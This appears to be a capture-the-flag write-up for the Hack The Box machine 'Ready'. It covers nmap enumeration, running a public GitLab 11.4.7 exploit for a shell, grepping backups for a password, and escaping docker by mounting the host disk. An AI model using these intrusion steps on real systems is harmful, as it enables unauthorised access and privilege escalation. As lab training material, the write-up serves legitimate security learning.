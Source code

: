 # HTB Ready Writeup
IP = 10.10.10.220

## Enumeration


Starting as always with nmap:
```nmap -sV -sC 10.10.10.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-11 01:54 IST
Nmap scan report for 10.10.10.220
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-title: GitLab is not responding (502)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.11 seconds
```

So there is 2 ports open, ssh and http...  
also we go a robots.txt file and we know its gitlab  

We got an login and register option  
So lets make a user...  
![login](https://user-images.githubusercontent.com/51215035/110734281-28d4ae00-8230-11eb-9596-049a1f5aa5e8.png)  
   
After logging in first we will check the version of gitlab:  
![version](https://user-images.githubusercontent.com/51215035/110735162-e44a1200-8231-11eb-8e73-3165fa8d8e7d.png)


I like what i see!, lets searchsploit!  
```searchsploit gitlab 11.4.7```
![search](https://user-images.githubusercontent.com/51215035/110735664-e6f93700-8232-11eb-87e1-be225c69ebe0.png)
Nice!  

## Exploitation

I tried the first exploit one, it didnt work, but the second exploit working great  
```
searchsploit -m ruby/webapps/49257.py  
```  


Edit the code a bit:  
![code](https://user-images.githubusercontent.com/51215035/110735341-4acf3000-8232-11eb-9488-213d826ebca1.png)
(for the authenticity token i capture a request to open new repository with burp)


And run...  
![run](https://user-images.githubusercontent.com/51215035/110735474-8964ea80-8232-11eb-8b23-bcc08cba7091.png)


Getting normal shell:  
```
which python3
/opt/gitlab/embedded/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
```
For some reason I could read the user flag from here...  
```
cat /home/dude/user.txt
  e1e30b052b6ec0670698805d745e7682
```  


## Privilage escalation

It took me quite a long time to find something, I was just looking all over trying to find something until I got to /opt/backup/  
There I just cat everything and grep for password.  
![pass](https://user-images.githubusercontent.com/51215035/110736211-ed3be300-8233-11eb-91a8-59767be2456f.png)  


Found: ```gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"```

And there was the most frustrating part in this box for me, I was sure I'm done but there was no flag in /root folder  
Than i realized I was in a docker...  
So I googled "docker escape" and found this:  
[HackTricks ](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)  

Starting to test some things from the article  
```
fdisk -l
```
Then
```
mkdir -p /mnt/hola
mount /dev/sda2 /mnt/hola
```
And wallah, as simple as this, now when im going to hola directory, I'm out of the docker, so all what left to do is grab the root flag.  
```
root@gitlab:/mnt# cd hola/root
  cd hola/root
root@gitlab:/mnt/hola/root# cat root.txt
  cat root.txt
  b7f98681505cd39066f67147b103c2b3
```


